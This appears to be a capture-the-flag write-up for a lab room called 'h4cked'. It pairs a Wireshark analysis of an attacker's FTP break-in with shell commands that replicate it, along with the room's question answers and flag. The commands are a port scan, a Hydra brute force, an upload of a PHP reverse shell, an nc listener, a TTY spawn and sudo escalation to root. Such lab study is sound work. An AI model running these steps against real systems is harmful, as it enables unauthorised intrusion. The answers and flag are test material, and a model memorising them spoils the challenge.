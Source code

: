 # h4cked - Easy

```shell
rustscan -a 10.10.53.85 --range 0-65535 --ulimit 5000 -- -sV

hydra -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.53.85 ftp
#brute force attack on ftp gives password

ftp 10.10.53.85
#login and upload reverse-shell.php

put reverse-shell.php

quit

#setup listener
#and execute web shell by visiting the .php file on web server
nc -nvlp 4445

#visit reverse-shell link
#we get shell as www-data

su jenny
#use new creds

sudo -l
#we have required privileges

sudo su
#switch to root

cat /root/Reptile/flag.txt
```

```markdown
We have to analyse the given capture on Wireshark.

We can see that there are a lot of FTP password requests, this means the attacker is trying to bruteforce into FTP; a common bruteforcing tool is Hydra.

Furthermore, for FTP, the attacker is using the username 'jenny'.

At a point, we can see the Response: Login Success text; this means the password has been found, and the last password that was sent was 'password123'.

We can also navigate to Analyze > Follow > TCP Stream to view this data.

It shows that the current FTP directory is /var/www/html; this could be the directory for a web server.

The attacker has uploaded a backdoor named shell.php.

Under the FTP-DATA protocol, we can see that the attacker has used the pentestmonkey PHP reverse-shell; the text includes the URL from which it was downloaded.

Following this, there are a few commands that we can see in which the attacker interacts with the browser in order to interact with the uploaded backdoor.

After this, the attacker gets a reverse shell; we can see that 'whoami' was executed first.

We can use this sequence of packets and use Analyze > Follow > TCP Stream again to view the commands clearly.

The attacker used 'sudo -l' to check sudo privileges and it printed ALL:ALL, which means any command can be run as sudo.

Hence to get a root shell, all the attacker had to do was execute 'sudo su' to switch to root user.

We can see that the attacker has cloned a GitHub projet called Reptile from <https://github.com/f0rb1dd3n/Reptile>.

Navigating to the project link, we can see that it's a type of rootkit.

Now, taking reference from the pcap file, we need to replicate the steps to become root on the machine.

Using rustscan, we can see that ports 21 (ftp) and 80 (http) are open.

We need to attack the FTP service using Hydra; brute-forcing gives us the creds jenny:987654321

After changing the IP and port values in the reverse-shell.php file, we can upload it on the FTP server.

Post upload, we need to visit the required link to execute the webshell; ensure to setup listener prior to this.

Alternatively, we can edit the existing shell.php file as well accordingly.

After visiting the link, we get a reverse shell; now we just need to replicate the attacker's steps.

After switching to user Jenny, and using the new password we found earlier, we can use 'sudo su' to switch to root user.

Root flag can be found in /root/Reptile/flag.txt
```

1. The attacker is trying to log into a specific service. What service is this? - FTP

2. What is the name of this tool? - Hydra

3. What is the username? - jenny

4. What is the user's password? - password123

5. What is the current FTP working directory after the attacker logged in? - /var/www/html

6. What is the backdoor's filename? - shell.php

7. The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL? - http://pentestmonkey.net/tools/php-reverse-shell

8. Which command did the attacker manually execute after getting a reverse shell? - whoami

9. What is the computer's hostname? - wir3

10. Which command did the attacker execute to spawn a new TTY shell? - python3 -c 'import pty; pty.spawn("/bin/bash")'

11. Which command was executed to gain a root shell? - sudo su

12. What is the name of the GitHub project? - Reptile

13. What is this type of backdoor called? - rootkit

14. Read the flag.txt inside the Reptile directory. - ebcefd66ca4b559d17b440b6e67fd0fd
